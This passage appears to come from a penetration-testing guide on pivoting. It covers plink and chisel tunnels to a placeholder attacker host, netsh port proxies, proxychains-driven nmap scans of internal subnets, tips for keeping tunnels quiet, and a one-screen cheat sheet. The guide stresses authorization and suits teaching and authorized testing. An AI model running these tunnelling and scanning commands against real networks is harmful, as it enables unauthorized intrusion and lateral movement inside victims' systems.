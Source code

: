 12) Windows pivot with plink.exe (SOCKS and forwards)
- Dynamic SOCKS from Windows pivot to your Kali (run on Kali if you can reach pivot via SSH):
  - If you have credentials to pivot SSH, same as Linux ssh -D.
- If pivot is Windows and you can run plink from it (to your Kali):
```
plink.exe -ssh -N -D 1080 ATTACKER_USER@ATTACKER_IP
```
- Local forward (Windows pivot -> internal):
```
plink.exe -ssh -N -L 3389:INTERNAL_HOST:3389 ATTACKER_USER@ATTACKER_IP
```

13) Windows netsh portproxy (L4 forward on Windows)
```
netsh interface portproxy add v4tov4 listenaddress=0.0.0.0 listenport=8443 connectaddress=INTERNAL_HOST connectport=443
# Verify
netsh interface portproxy show all
```

14) Keep tunnels stable and quiet
- autossh:
```
autossh -M 0 -N -f -D 1080 PIVOT_USER@PIVOT_IP -o ServerAliveInterval=30 -o ServerAliveCountMax=3
```
- SSH keepalives:
```
-o ServerAliveInterval=30 -o ServerAliveCountMax=3 -o ExitOnForwardFailure=yes
```

## Practical tips
- Prefer -sT over -sS when scanning via SOCKS; raw packet scans don’t traverse proxies.
- Use -Pn and -n with Nmap behind proxies to avoid slow host discovery and DNS leaks.
- Tune timeouts: --max-retries, --host-timeout, -T4 to keep scans manageable.
- Verify one host/port through the tunnel before scanning a /24.
- Dynamic SOCKS is flexible; use local forward when you know the exact service (e.g., RDP/DB).
- For reverse shells from internal hosts, set up ssh -R on the pivot or use Metasploit bind/reverse carefully.
- chisel is lightweight and great when SSH isn’t available or you need reverse-only egress.
- Log discovered subnets from ip r/route print; these guide your target scope.
- Clean up: kill ssh/chisel/socat processes, remove portproxy rules, revert proxychains config.
- Always have authorization. Pivoting is powerful and noisy if misconfigured.

## Minimal cheat sheet (one-screen flow)
- Enumerate:
```
ip a; ip r; arp -an   # Linux
ipconfig /all & route print & arp -a   # Windows
```
- Dynamic SOCKS via SSH:
```
ssh -N -f -D 1080 PIVOT_USER@PIVOT_IP -o ExitOnForwardFailure=yes -o ServerAliveInterval=30
echo 'socks5 127.0.0.1 1080' | sudo tee -a /etc/proxychains4.conf
proxychains -q curl -I http://INTERNAL_HOST:80
```
- Scan through SOCKS:
```
proxychains -q nmap -sT -Pn -n -T4 --max-retries 2 -p 80,139,445,3389 INTERNAL_SUBNET
```
- Local forward to a service:
```
ssh -N -f -L 3389:INTERNAL_HOST:3389 PIVOT_USER@PIVOT_IP
rdesktop 127.0.0.1
```
- chisel reverse SOCKS:
```
chisel server --reverse -p 8000
```
